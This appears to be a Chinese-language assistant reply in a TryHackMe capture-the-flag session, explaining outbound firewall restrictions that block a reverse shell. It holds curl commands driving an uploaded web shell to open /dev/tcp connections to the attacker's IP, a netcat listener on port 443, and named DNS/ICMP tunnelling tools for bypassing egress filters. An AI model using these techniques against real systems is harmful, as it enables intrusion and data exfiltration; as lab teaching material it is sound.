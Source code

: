 為什麼之前的題目 我用任意port 都可以nc 這次的卻不行？

## 兩種常見的網絡環境:

### 1. **無出站限制的環境** (你之前遇到的)
```
┌─────────────┐         ┌──────────────┐
│  你的機器   │ ←─任意─── │  目標機器    │
│  (Kali)     │   端口   │  (Victim)    │
└─────────────┘         └──────────────┘
```
- 目標機器可以連接到**任意外部端口**
- 沒有出站防火牆規則
- 常見於:
  - 簡單的練習環境
  - 內部網絡
  - 配置寬鬆的系統

### 2. **有出站限制的環境** (這次的情況)
```
┌─────────────┐         ┌──────────────┐
│  你的機器   │ ←─僅允許─ │  目標機器    │
│  (Kali)     │  特定端口 │  (Victim)    │
│             │  80,443  │ + 防火牆     │
└─────────────┘  53等    └──────────────┘
```
- 目標機器有**出站防火牆規則**
- 只允許連接到特定端口(通常是業務需要的)
- 常見於:
  - 真實的生產環境
  - 安全性較高的 CTF
  - 企業網絡

## 為什麼會有這種差異?

### 出站限制的原因:
1. **安全最佳實踐**: 限制出站連接可以防止:
   - 反向 shell
   - 數據外洩
   - C2 (Command & Control) 通信

2. **真實性**: 模擬真實企業環境,因為企業通常會:
   ```bash
   # 典型的防火牆規則
   iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT   # 允許 HTTP
   iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT  # 允許 HTTPS
   iptables -A OUTPUT -p tcp --dport 53 -j ACCEPT   # 允許 DNS
   iptables -A OUTPUT -j DROP                        # 拒絕其他所有
   ```

3. **增加難度**: 讓滲透測試更有挑戰性

## 如何判斷環境類型?

### 快速測試:
```bash
# 測試非標準端口
curl -k "https://monitorr.robyns-petshop.thm/assets/data/usrimg/test.gif.php?cmd=timeout+2+bash+-c+'</dev/tcp/10.4.11.38/9999'+%26%26+echo+unrestricted+||+echo+restricted"

# 測試標準端口
curl -k "https://monitorr.robyns-petshop.thm/assets/data/usrimg/test.gif.php?cmd=timeout+2+bash+-c+'</dev/tcp/10.4.11.38/443'+%26%26+echo+port_443_ok"
```

## 常見的允許出站端口:

| 端口 | 服務     | 為何允許      |
| ---- | -------- | ------------- |
| 53   | DNS      | 域名解析必需  |
| 80   | HTTP     | Web 訪問      |
| 443  | HTTPS    | 安全 Web 訪問 |
| 8080 | Alt HTTP | 替代 Web 端口 |
| 3128 | Proxy    | 代理服務器    |

## 繞過出站限制的技巧:

1. **使用允許的端口** (你現在在做的)
   ```bash
   sudo nc -lvnp 443
   ```

2. **DNS 隧道** (如果只有 53 開放)
   ```bash
   # 使用工具如 dnscat2, iodine
   ```

3. **ICMP 隧道** (如果允許 ping)
   ```bash
   # 使用 icmpsh, ptunnel
   ```

4. **HTTP/HTTPS 隧道**
   ```bash
   # 通過 Web 流量傳輸數據
   ```

## TryHackMe 的不同難度:

- **Easy rooms**: 通常無限制
- **Medium/Hard rooms**: 可能有出站限制
- **Real-world scenarios**: 模擬企業環境,有嚴格限制

**總結**: 這次遇到的限制是為了模擬更真實的環境,讓你學習如何在受限環境下建立連接!繼續用 443 或 80 端口試試看! 🎯